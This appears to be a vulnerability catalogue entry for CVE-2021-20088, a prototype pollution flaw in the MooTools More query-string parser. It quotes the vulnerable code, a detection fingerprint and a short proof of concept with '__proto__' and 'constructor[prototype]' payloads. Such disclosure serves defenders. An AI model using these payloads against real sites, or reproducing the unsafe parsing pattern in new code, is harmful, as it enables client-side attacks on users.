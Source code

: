 ## MooTools More

URL: https://github.com/mootools/mootools-more

### CVE
[CVE-2021-20088](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-20088)

### JS Fingerprint
```
return (typeof String.parseQueryString != 'undefined')
```

### Vulnerable code fragment

https://github.com/mootools/mootools-more/blob/687363b141c7d6abb89e6716462bbd99545f81e5/Source/Types/String.QueryString.js#L46

```js
  parseQueryString: function(decodeKeys, decodeValues){
    if (decodeKeys == null) decodeKeys = true;
    if (decodeValues == null) decodeValues = true;

    var vars = this.split(/[&;]/),
      object = {};
    if (!vars.length) return object;

    vars.each(function(val){
      var index = val.indexOf('=') + 1,
        value = index ? val.substr(index) : '',
        keys = index ? val.substr(0, index - 1).match(/([^\]\[]+|(\B)(?=\]))/g) : [val],
        obj = object;
      if (!keys) return;
      if (decodeValues) value = decodeComponent(value);
      keys.each(function(key, i){
        if (decodeKeys) key = decodeComponent(key);
        var current = obj[key];

        if (i < keys.length - 1) obj = obj[key] = current || {};
        else if (typeOf(current) == 'array') current.push(value);
        else obj[key] = current != null ? [current, value] : value;
      });
    });

    return object;
  }       
```

### PoC
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools-more/1.6.0/mootools-more-compressed.js"></script>
<script>
  String.parseQueryString(location.search.slice(1))
</script>
```
```
?__proto__[test]=test
?constructor[prototype][test]=test
```